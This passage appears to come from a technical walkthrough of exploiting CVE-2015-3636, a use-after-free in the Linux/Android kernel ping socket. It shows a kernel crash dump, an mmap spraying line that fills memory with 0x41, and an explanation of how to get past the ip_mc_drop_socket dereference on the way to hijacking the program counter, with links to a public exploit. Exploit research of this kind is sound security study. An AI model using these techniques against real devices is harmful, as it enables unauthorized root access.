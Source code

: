 ```shell
x19: 4141414141414141 x18: 0000007f94698000
x17: 0000000000000000 x16: ffffffc000141878
x15: 00000000004a7d04 x14: 0000000000000010
x13: 0a2174656b636f73 x12: 2046415520656874
x11: 0000000000000000 x10: 0000007f93817108
x9 : 6d313e33a48870ce x8 : 0000000000000039
x7 : ffffffc000617038 x6 : 0000000000000000
x5 : 0000000000000000 x4 : 0000000000000000
x3 : 0000000041414141 x2 : 0000000000000000
x1 : 0000000000000000 x0 : ffffffc03ed32d00
...
Call trace:
[<ffffffc0003bdc0c>] ip_mc_drop_socket+0x34/0xa8
[<ffffffc0003b9fd0>] inet_release+0x48/0x94
[<ffffffc000344d58>] sock_release+0x20/0x9c
[<ffffffc000344de0>] sock_close+0xc/0x1c
[<ffffffc0001439bc>] __fput+0x98/0x23c
[<ffffffc000143c20>] ____fput+0x8/0x14
[<ffffffc0000b5048>] task_work_run+0x94/0xec
[<ffffffc000088070>] do_notify_resume+0x50/0x64
Code: 9103a2d4 b00004f7 f94146d3 b4000313 (f9400260)
```

> The fact is that the UAF is not one hurdred percent stable. So run again if not satisfy the expectation.

Cool! The kernel is crashed because of page fault at 0x4141414141414141, which is quite obvious what we filled in our `mmap` spraying.

```c++
	memset((void *)((char *)mapped + PAGE_SIZE * j), 0x41, PAGE_SIZE); 
```

We can look into the source code to understand this panic, is about function `void ip_mc_drop_socket(struct sock *sk)`, which is called by `inet_realease()`.

```c++
{
	struct inet_sock *inet = inet_sk(sk); 
	struct ip_mc_socklist *iml;
	struct net *net = sock_net(sk);

	if (inet->mc_list == NULL)
		return;
	/* .... */
}
```

This function first obtain variable `inet` from `sock`, which is filled with `0x41` bytes. Then it tries to retrive the `mc_list` field in `inet`, results in the invalid dereference at `0x4141414141414141`. To avoid that, we can place NULL variable at this field.

### PC hijacking


[^1]: Owe You Android, Yet Another Universal Root. [LINK](https://www.blackhat.com/docs/us-15/materials/us-15-Xu-Ah-Universal-Android-Rooting-Is-Back-wp.pdf)
[^2]: Pwnie for Best Privilege Escalation Bug, 2015. [LINK](https://pwnies.com/archive/2015/nominations/)
[^3]: Bug Patch. [LINK](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=a134f083e79fb4c3d0a925691e732c56911b4326)
[^4]: One workable exploit [LINK](https://github.com/4B5F5F4B/Exploits/tree/master/Linux/CVE-2015-3636)
[^5]: goldfish git repo [LINK](https://android.googlesource.com/kernel/goldfish/+/refs/heads/android-goldfish-3.10-k-dev)